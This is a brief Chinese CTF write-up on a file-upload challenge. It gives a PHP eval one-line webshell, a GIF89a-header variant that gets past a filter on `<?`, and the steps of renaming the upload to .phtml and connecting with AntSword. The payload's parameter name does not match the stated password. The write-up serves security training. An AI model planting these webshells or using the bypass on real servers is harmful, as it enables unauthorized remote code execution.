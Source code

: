 尝试成功让人感动流泪。其实木马什么的并不难，难的是怎么连接上中了webshell的网站。<br>

## 1

首先我们打开靶机就是一个普通的界面，上传文件。<br>
不过都极客大挑战了，再上传什么php，js就有点睿智了，所以一上来用png或者gif或者more others。
一句话木马：
```php
<?php @eval($_POST['ashii']); ?>
```
传入文件后，毫不意外出现警告，`<?`被禁止。<br>
所以转个


```javascript
GIF89a
<script language='php'>eval($_POST['shell'])</script>
```

在抓包之后进行修改，将后缀'.png'修改成`.phtml`，forward。（或许可以尝试上传.taccess解析文件，尝试后再补充）<br>

界面显示上传成功后，我们尝试一下`xxx/upload/yyy.phtml`，界面如果显示了`GIF89a`，代表着访问成功。
接下来直接用该网址连接byAntSword，密码是`$_POST[]`的内容，此处为`ashii`。成功连接之后很容易可以找到flag文件。

## 2

一些补充材料：
<a href='https://www.solvusoft.com/zh-cn/file-extensions/file-extension-phtml/#'>什么是phtml</a>

<a href='https://zhuanlan.zhihu.com/p/138200793'>一句话木马</a>

<a href='https://www.cnblogs.com/linfangnan/p/13588709.html'>CTF-WEB简单参考</a>

<a href=https://blog.csdn.net/July_2th/article/details/84335572>webshell、木马、后门的区别</a>